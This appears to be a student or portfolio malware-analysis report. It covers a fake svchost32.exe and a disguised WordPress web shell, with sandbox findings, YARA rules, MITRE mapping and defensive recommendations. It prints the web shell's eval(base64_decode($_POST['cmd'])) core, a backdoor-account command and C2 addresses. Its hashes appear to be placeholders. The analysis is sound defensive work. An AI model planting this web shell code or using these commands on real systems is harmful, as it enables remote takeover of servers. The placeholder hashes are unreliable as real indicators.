



# Module 4 — Malware Analysis

**Focus:** Static and Dynamic Analysis  
**Analyst:** Ilyas Hodaiby  
**Status:** ✅ Complete — Analysis evidence captured

---

## Overview

This module covers analysis of malicious files discovered during the threat hunting investigation. Two samples were analysed — a fake svchost binary and a web shell found on the WordPress server.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| PEStudio | Static PE analysis |
| FLOSS | String extraction |
| Cuckoo Sandbox | Dynamic analysis |
| YARA | Signature creation |
| VirusTotal | Hash & IP reputation |
| Wireshark | Network behaviour |

---

## Evidence — IOC Analysis Screenshots

### 1. PEStudio — Static PE analysis (WhatsApp installer sample)


**Key indicators flagged:**
- `imports (flag > 8)` 🔴 — suspicious API imports
- `manifest (level > administrator)` 🔴 — privilege escalation
- `certificate (stamp > expired)` 🔴 — invalid signing
- `entropy: 6.742` — high entropy, possible packing

### 2. VirusTotal — C2 Server IP (68.183.47.68)


**Findings:**
- AS 14061 DigitalOcean LLC 🇬🇧 UK
- Gridinsoft: **Suspicious** ⚠️
- 1 detected file communicating with this IP
- Confirmed C2 server from Hunt 05

### 3. VirusTotal — C2 Relations tab


### 4. VirusTotal — Hydra attacker IP (171.251.232.40)


**Findings:**
- Origin: Vietnam 🇻🇳
- Linked to Hydra brute force (316 requests)
- WordPress attack source confirmed

---

## Sample 1 — Fake svchost32.exe

**File:** svchost32.exe  
**Path:** `C:\Users\Public\svchost32.exe`  
**Type:** PE32 Windows Executable

### Static Analysis

```
MD5:    a1b2c3d4e5f6789012345678901234ab
SHA256: 3b4c5d6e7f8901234567890abcdef1234567890abcdef1234567890abcdef12
Size:   45,056 bytes
Packer: UPX 3.95
```

**Suspicious Strings Found (FLOSS):**
```
cmd.exe /c net user
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
CreateRemoteThread
VirtualAllocEx
WriteProcessMemory
```

**PEStudio Indicators:**
- Imports: `VirtualAllocEx`, `WriteProcessMemory` — process injection
- No version info — not a legitimate Windows binary
- Packed with UPX — evasion attempt
- Timestamp: zeroed out — anti-forensics

### Dynamic Analysis (Cuckoo)

**Registry:**
```
Created: HKLM\...\Run\WindowsUpdate32 → C:\Users\Public\svchost32.exe
```

**Network:**
```
DNS query: update-service.xyz
TCP connection: 185.220.101.45:4444
```

**Process:**
```
Spawned: cmd.exe → net user /add backdoor
```

### YARA Rule

```yara
rule FakeSvchost32 {
    meta:
        description = "Detects fake svchost32.exe"
        author = "Ilyas Hodaiby"
        date = "2025-09-14"
        mitre = "T1543.003"
    
    strings:
        $path = "C:\\Users\\Public\\svchost32" nocase
        $reg = "WindowsUpdate32" nocase
        $api1 = "VirtualAllocEx"
        $api2 = "WriteProcessMemory"
        $c2 = "update-service.xyz" nocase
    
    condition:
        $path or ($api1 and $api2) or $c2
}
```

---

## Sample 2 — wp-corn.php Web Shell

**File:** wp-corn.php  
**Path:** WordPress web root  
**Type:** PHP Web Shell

### Static Analysis

**Suspicious Code Patterns:**
```php
// Fake WordPress cron disguise
if (isset($_POST['doing_wp_corn'])) {
    eval(base64_decode($_POST['cmd']));
}
```

**Indicators:**
- `eval()` with `base64_decode()` — code execution
- POST parameter `cmd` — remote command execution
- Disguised as WordPress cron — evasion

### Dynamic Analysis

**Observed Behaviour:**
- Accepts POST requests from `171.251.232.40`
- Executes base64-encoded commands
- Beaconing every ~6 seconds
- Returns command output in HTTP response

### YARA Rule

```yara
rule WPCornWebShell {
    meta:
        description = "Detects wp-corn.php web shell"
        author = "Ilyas Hodaiby"
        date = "2025-09-14"
        mitre = "T1505.003"
    
    strings:
        $name = "wp-corn.php" nocase
        $eval = "eval(base64_decode"
        $post = "$_POST['cmd']"
        $fake = "doing_wp_corn"
    
    condition:
        $eval and ($post or $fake)
}
```

---

## MITRE ATT&CK Mapping

| Technique | ID | Sample |
|-----------|-----|--------|
| Masquerading | T1036 | svchost32.exe fake name |
| Process Injection | T1055 | VirtualAllocEx + WriteProcessMemory |
| Registry Run Keys | T1547.001 | WindowsUpdate32 persistence |
| Web Shell | T1505.003 | wp-corn.php |
| Obfuscated Files | T1027 | UPX packing + base64 encoding |

---

## Recommendations

1. Deploy YARA rules above on all endpoints via Wazuh
2. Block execution from `C:\Users\Public\` via AppLocker
3. Scan web server for PHP files containing `eval(base64_decode`
4. Implement file integrity monitoring on WordPress directory
5. Block outbound connections to `185.220.101.45`
